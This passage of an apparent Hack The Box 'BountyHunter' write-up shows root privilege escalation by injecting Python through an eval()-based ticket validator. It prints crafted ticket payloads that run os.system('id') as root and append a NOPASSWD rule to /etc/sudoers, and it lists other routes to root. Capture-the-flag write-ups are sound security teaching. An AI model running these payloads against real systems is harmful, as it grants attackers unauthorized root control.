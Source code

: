     def main():
        fileName = input("Please enter the path to the ticket file.\n")
        ticket = load_file(fileName)
        #DEBUG print(ticket)
        result = evaluate(ticket)
        if (result):
            print("Valid ticket.")
        else:
            print("Invalid ticket.")
        ticket.close

    main()

We write our own file `a.md` to pass the few checks and got our payload inside
the `eval()` statement.

    :::text
    # Skytrain Inc
    ## Ticket to toto
    __Ticket Code:__
    **4__import__('os').system('id')

Once we run this "ticket" we got a code execution (`id`) as root.

    :::text
    development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
    Please enter the path to the ticket file.
    a.md
    Destination: toto
    uid=0(root) gid=0(root) groups=0(root)
    Invalid ticket.

We know have a few option to get a root shell (who could also just `cat` the root
flag but that's lazy):

* Add a root (id 0) user to `/etc/passwd` with a password of our choice (see [armageddon](/2021/07/htb-armageddon.html))
* Add an ssh key to root
* run a reverse shell
* surcharge our `sudo` permissions

We will do the latest here. Our "ticket" file will be the following:

    :::text
    # Skytrain Inc
    ## Ticket to toto
    __Ticket Code:__
    **4+__import__('os').system('echo \'development    ALL=NOPASSWD: ALL\'>> /etc/sudoers')

We run the `ticketValidator.py` script with the `sudo` permission and get a
`root` shell and the flag.
